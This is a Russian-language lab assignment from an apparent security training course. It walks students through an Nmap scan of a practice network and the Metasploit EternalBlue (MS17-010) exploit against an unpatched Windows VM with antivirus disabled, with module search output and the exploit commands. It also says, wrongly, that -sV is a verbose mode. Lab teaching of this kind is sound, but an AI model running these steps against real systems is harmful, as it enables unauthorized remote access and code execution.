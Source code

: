 # Практическое задание: кейс Red Team

Давайте потренируемся на реальном кейсе получения удалённого доступа к серверной платформе.
Не стоит обращать внимание на старую версию операционной системы. Дело в том, что во многих крупных организациях инфраструктура создавалась десятки лет назад и IT-подразделения не торопятся обновлять операционные системы по принципу «пока работает — не трогай». От этого выполнение задания будет только интереснее.
Цель работы

    Изучить базовые команды работы с эксплойтами Metasploit Framework.
    Просканировать учебную локальную сеть.
    Выявить компьютер с уязвимостью EternalBlue.
    Провести эксплуатацию этой уязвимости и сделать скриншот экрана.

## Подготовительный этап занятия

Необходимо развернуть две виртуальные машины.

- [x] Одну с операционной системой Microsoft Windows,
- [x] другую с операционной системой Kali Linux.
- [x] На операционной системе семейства Microsoft Windows Server 2008 отключить все антивирусные средства.

[Ссылка на виртуальную машину](https://disk.yandex.ru/d/QN6BMo3JhEaLMQ)

## Задачи, выполняемые в рамках работы

Главная задача — научиться выполнять сканирование учебной локальной сети для выявления доступных хостов.
Пример команды для выполнения ping-сканирования сети:

```bash
Nmap -sP 192.168.1.0/24
```

`-sP` — эта опция указывает Nmap произвести пинг-сканирование (определение хостов), а затем вывести список доступных хостов, т. е. тех, которые ответили на запросы. Определение маршрутов и NSE-скрипты также используются, если необходимо, однако дальнейшее тестирование (например сканирование портов или определение ОС) не производится. По умолчанию эта опция считается как бы на один шаг более тщательной, чем сканирование для составления простого списка хостов, и может быть использована в этих же целях. Она позволяет произвести исследование целевой сети без привлечения внимания.

## Следующим этапом будет сканирование уже найденных хостов с целью определения нужных портов для эксплуатации уязвимости EternalBlue.

Эксплойт EternalBlue использует уязвимость в реализации протокола Server Message Block v1 (SMB). Злоумышленник, сформировав и передав на удалённый узел особым образом подготовленный пакет, может получить удалённый доступ к системе и запустить на ней произвольный код.

Компания-разработчик Microsoft подтвердила, что уязвимости подвержены все версии Windows — начиная с Windows XP и заканчивая Windows Server 2016 — то есть уязвимость оставалась неисправленной на протяжении по крайней мере 16 лет. Она была устранена в серии обновлений MS17-010.

Первое публичное использование эксплойта EternalBlue было зарегистрировано 21 апреля 2017 года, когда программа-бэкдор DoublePulsar, основанная на коде АНБ, поразила свыше 200 тыс. компьютеров в течение нескольких дней. 12 мая 2017 года появился шифровальщик WannaCry, использовавший эксплойт EternalBlue и код DoublePulsar, который поразил десятки тысяч компьютеров в Интернете. Размах атаки был настолько обширен, что побудил Microsoft выпустить обновления к неподдерживаемым ОС Windows XP/Windows Server 2003 и Windows 8.

Пример команды для выполнения сканирования ранее найденных хостов:

```bash
Nmap -sV <ip-адрес>
```

Где `-sV` — команда использовать режим «подробного отчёта». Эту опцию рекомендуется использовать в любых случаях, поскольку при этом Nmap подробно сообщает о ходе выполнения текущей операции.

Наша цель — найти компьютер с открытым портом 445 под управлением операционной системы Microsoft Windows XP.

## Далее приступаем к самой эксплуатации уязвимости. Для этого выполняем следующие команды на Kali Linux:

```
Msfconsole
 search ms17-010
 Matching Modules
================
    #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

use 2
set RHOST <найденный ip-адрес>
exploit
screenshot
```

Выполнение указанных выше команд позволит вам получить удалённый доступ к рабочему месту, подверженному уязвимости Eternal Blue.

Теперь можно с уверенностью сказать, что начальные навыки по проверке уязвимости рабочих мест и серверов вы получили. Надеемся, что эти навыки помогут вам в дальнейшем более детально погрузиться в аспекты работы Red Team.

## Условия реализации

В предлагаемую форму для ввода приложите сделанный скриншот.
